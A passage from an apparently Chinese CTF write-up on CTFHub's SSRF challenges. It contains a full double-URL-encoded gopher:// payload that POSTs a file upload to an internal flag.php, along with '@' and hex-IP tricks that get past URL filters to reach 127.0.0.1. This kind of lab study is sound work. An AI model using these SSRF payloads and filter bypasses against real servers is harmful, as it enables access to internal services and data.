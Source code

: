 111
------geckoformboundaryc2989fe8059f83f994d023bd4cf9bce8
Content-Disposition: form-data; name="submit"

提交查询
------geckoformboundaryc2989fe8059f83f994d023bd4cf9bce8--

```

![image-20250419222916072](image-20250419222916072.png)

``` 
url=gopher://127.0.0.1:80/_POST%2520%252Fflag%252Ephp%2520HTTP%252F1%252E1%250D%250AHost%253A%2520challenge%252D1e43d5d6a835ce72%252Esandbox%252Ectfhub%252Ecom%253A10800%250D%250AUser%252DAgent%253A%2520Mozilla%252F5%252E0%2520%2528Windows%2520NT%252010%252E0%253B%2520Win64%253B%2520x64%253B%2520rv%253A136%252E0%2529%2520Gecko%252F20100101%2520Firefox%252F136%252E0%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0%252E9%252C%252A%252F%252A%253Bq%253D0%252E8%250D%250AAccept%252DLanguage%253A%2520zh%252DCN%252Czh%253Bq%253D0%252E8%252Czh%252DTW%253Bq%253D0%252E7%252Czh%252DHK%253Bq%253D0%252E5%252Cen%252DUS%253Bq%253D0%252E3%252Cen%253Bq%253D0%252E2%250D%250AAccept%252DEncoding%253A%2520gzip%252C%2520deflate%252C%2520br%250D%250AContent%252DType%253A%2520multipart%252Fform%252Ddata%253B%2520boundary%253D%252D%252D%252D%252Dgeckoformboundaryc2989fe8059f83f994d023bd4cf9bce8%250D%250AContent%252DLength%253A%2520333%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge%252D1e43d5d6a835ce72%252Esandbox%252Ectfhub%252Ecom%253A10800%250D%250AConnection%253A%2520close%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge%252D1e43d5d6a835ce72%252Esandbox%252Ectfhub%252Ecom%253A10800%252F%253Furl%253D127%252E0%252E0%252E1%252Fflag%252Ephp%250D%250AUpgrade%252DInsecure%252DRequests%253A%25201%250D%250APriority%253A%2520u%253D0%252C%2520i%250D%250APragma%253A%2520no%252Dcache%250D%250ACache%252DControl%253A%2520no%252Dcache%250D%250A%250D%250A%252D%252D%252D%252D%252D%252Dgeckoformboundaryc2989fe8059f83f994d023bd4cf9bce8%250D%250AContent%252DDisposition%253A%2520form%252Ddata%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522ss%252Etxt%2522%250D%250AContent%252DType%253A%2520text%252Fplain%250D%250A%250D%250A111%250D%250A%252D%252D%252D%252D%252D%252Dgeckoformboundaryc2989fe8059f83f994d023bd4cf9bce8%250D%250AContent%252DDisposition%253A%2520form%252Ddata%253B%2520name%253D%2522submit%2522%250D%250A%250D%250A%25E6%258F%2590%25E4%25BA%25A4%25E6%259F%25A5%25E8%25AF%25A2%250D%250A%252D%252D%252D%252D%252D%252Dgeckoformboundaryc2989fe8059f83f994d023bd4cf9bce8%252D%252D%250D%250A
```

![image-20250419223021693](image-20250419223021693.png)

**flag:ctfhub{b2184ba24b1f73711bbc433a}**

## URL Bypass

![image-20250420000956644](image-20250420000956644.png)

![image-20250420001018794](image-20250420001018794.png)



必须以```http://notfound.ctfhub.com```开头，利用@

前几题都是在flag.php，不扫了

```http://challenge-8969491d76b728e9.sandbox.ctfhub.com:10800/?url=http://notfound.ctfhub.com@127.0.0.1/flag.php```

![image-20250420001437851](image-20250420001437851.png)

**flag:ctfhub{cea33271e701772ca5d81eb8}**

## 数字IP Bypass

![image-20250420001705644](image-20250420001705644.png)

127不能用了，先试试[::]，不管用

把127.0.0.1换成16进制```0x7F.0x00.0x00.0x01```
```